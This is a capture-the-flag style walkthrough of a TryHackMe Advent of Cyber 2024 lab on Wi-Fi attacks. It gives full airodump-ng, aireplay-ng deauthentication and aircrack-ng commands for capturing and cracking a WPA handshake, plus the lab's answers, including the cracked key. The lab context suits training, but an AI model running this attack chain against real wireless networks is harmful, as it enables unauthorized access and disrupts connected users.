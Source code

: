 **Advent of Cyber 2024 [Day 11] Writeup with Answers | TryHackMe Walkthrough**
**Task 17 — WiFi Attacks: If you'd like to WPA, press the star key!**
This task involves performing Wi-Fi attacks, specifically capturing WPA handshakes and cracking them to retrieve the PSK (Pre-Shared Key) of a target network.

### **Steps to Solve the Task:**
**Pre-requisite:** Make sure you are connected to the VPN before starting the task.

#### **1. What is the BSSID of our wireless interface?**
To find the BSSID of the wireless interface, follow these steps:

1. Open **two terminals** and connect to the machine via SSH with the provided credentials:
    `ssh glitch@MACHINE_IP`
    
2. In the **first terminal**, run the following commands to set your wireless interface `wlan2` to monitor mode:
    `sudo ip link set dev wlan2 down sudo iw dev wlan2 set type monitor sudo ip link set dev wlan2 up`
    
3. This will display the **BSSID** of the wireless interface in use.
    

**Answer:**
`02:00:00:00:02:00`

#### **2. What is the SSID and BSSID of the access point?**

In the **first terminal**, run the following command to capture information about the nearby networks:
`sudo airodump-ng wlan2`

This will display the list of Wi-Fi networks, their SSID, and BSSID. Look for the access point of interest.

**Answer:**
`MalwareM_AP, 02:00:00:00:00:00`

#### **3. What is the BSSID of the wireless interface that is already connected to the access point?**

To find the BSSID of the wireless interface connected to the access point, run the following command in the **first terminal** to start the attack and capture packets:
`sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2`

This command will show the client information, including the BSSID of the connected device.

**Answer:**
`02:00:00:00:01:00`

#### **4. What is the PSK after performing the WPA cracking attack?**

To capture the WPA handshake, perform a **deauthentication attack** to force the client to reconnect to the access point. In the **second terminal**, run the following command:
`sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2`

This will deauthenticate the client and cause them to reconnect, sending the WPA handshake.

After the deauthentication attack is successful, use **aircrack-ng** to crack the WPA handshake captured in the output file:
`sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap`

This command uses the **rockyou.txt** wordlist to crack the WPA key.

**Answer:**
`fluffy/champ24`

---

### **Summary of Answers:**

1. **BSSID of the wireless interface:** 02:00:00:00:02:00
2. **SSID and BSSID of the access point:** MalwareM_AP, 02:00:00:00:00:00
3. **BSSID of the connected wireless interface:** 02:00:00:00:01:00
4. **PSK after WPA cracking attack:** fluffy/champ24

This task demonstrates how to perform WPA cracking attacks on a Wi-Fi network using tools like `aircrack-ng`, `aireplay-ng`, and `airodump-ng` to capture handshakes and crack the PSK.